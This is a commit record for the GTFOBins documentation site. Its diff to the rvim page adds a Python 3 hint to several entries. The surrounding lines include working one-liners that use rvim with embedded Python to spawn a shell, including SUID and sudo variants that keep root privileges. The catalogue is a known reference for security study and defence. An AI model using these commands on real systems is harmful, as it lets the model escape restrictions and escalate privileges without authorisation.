

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add Python 3 comment in vim and rvim

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -1,10 +1,10 @@
 ---
 functions:
   shell:
-    - description: This requires that `rvim` is compiled with Python support.
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   file-write:
-    - description: This requires that rvim is compiled with Python support.
+    - description: This requires that rvim is compiled with Python support. Prepend `:py3` for Python 3.
       code: |
         rvim file_to_write
         iDATA
@@ -13,9 +13,9 @@ functions:
   file-read:
     - code: rvim file_to_read
   suid:
-    - description: This requires that `rvim` is compiled with Python support.
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
   sudo:
-    - description: This requires that `rvim` is compiled with Python support.
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
       code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
 ---
```
Also changed, not shown: _gtfobins/vim.md (+3 -3 lines).
